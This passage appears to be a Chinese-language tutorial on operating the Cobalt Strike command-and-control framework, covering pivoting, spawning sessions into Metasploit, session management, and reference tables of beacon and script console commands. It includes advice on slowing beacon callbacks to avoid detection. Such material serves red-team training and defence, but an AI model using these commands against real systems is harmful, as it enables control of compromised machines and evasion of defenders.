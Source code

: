 **Pivot(代理中转)**
用来开启代理的
- Socks Server
- Listener 让一台主机作为中转器
- Deploy VPN: 部署VPN

**Spawn**
新增会话, 通过新增会话可以和msf或者Armitage联动

打开MSF或Armitage做好监听配置之后选择或添加一个外部Payload然后点击Choose之后就会收到会话连接

**Session**
会话管理
- Note 备注
- Remove 删除
- Sleep 设置睡眠时间
- Exit 退出，木马执行结束运行。

### 2.2 bacon shell命令

```
help 			查看beacon shell所有内置命令帮助,如果想查看指定命令的用法,可以这样,eg: help checkin
note 			给当前目录机器起个名字, eg: note beacon-shell
cd			在目标系统中切换目录,注意在win系统中切换目录要用双反斜杠,或者直接用'/' eg: cd c:\\
mkdir 			新建目录, eg: mkdir d:\\beacon
rm 			删除文件或目录, eg: rm d:\\beacon
upload 			上传文件到目标系统中
download		从目标系统下载指定文件,eg: download C:\\Users\\win7cn\\Desktop\\putty.exe
cancel			取消下载任务,比如,一个文件如果特别大,下载可能会非常耗时,假如中途你不想继续下了,就可以用这个取消一下
shell			在目标系统中执行指定的cmd命令, eg: shell whoami
getuid 			查看当前beacon 会话在目标系统中的用户权限,可能需要bypassuac或者提权
pwd			查看当前在目录系统中的路径
ls			列出当前目录下的所有文件和目录
drives			列表出目标系统的所有分区[win中叫盘符]
ps			查看目标系统当前的所有的进程列表
kill			杀掉指定进程, eg: kill 4653
sleep 10		指定被控端休眠时间,默认60秒一次回传,让被控端每10秒来下载一次任务,实际中频率不宜过快,容易被发现,80左右一次即可
jobs			列出所有的任务列表,有些任务执行时间可能稍微较长,此时就可以从任务列表中看到其所对应的具体任务id,针对性的清除
jobkill			如果发现任务不知是何原因长时间没有执行或者异常,可尝试用此命令直接结束该任务, eg: jobkill 1345
clear			清除beacon内部的任务队列
checkin			强制让被控端回连一次
exit 			终止当前beacon 会话
ctrl + k 		清屏
```
Beacon是异步有效负载。命令不会立即执行。默认情况下，Beacon每60秒连接检查一次，可以使用sleep命令更改此设置

### 2.3 Script Console
```
? 执行sleep判断语句并输出结果
e 执行sleep说明语句
help 帮助
load 加载一个脚本
ls 列出加载的所有脚本
proff 关闭脚本分析器
pron 为开启脚本分析器
profile 脚本性能统计
reload 重新加载脚本
troff 关闭脚本跟踪功能
tron 开启脚本跟踪功能
unload 卸载脚本
x 执行sleep表达式并输出结果
```
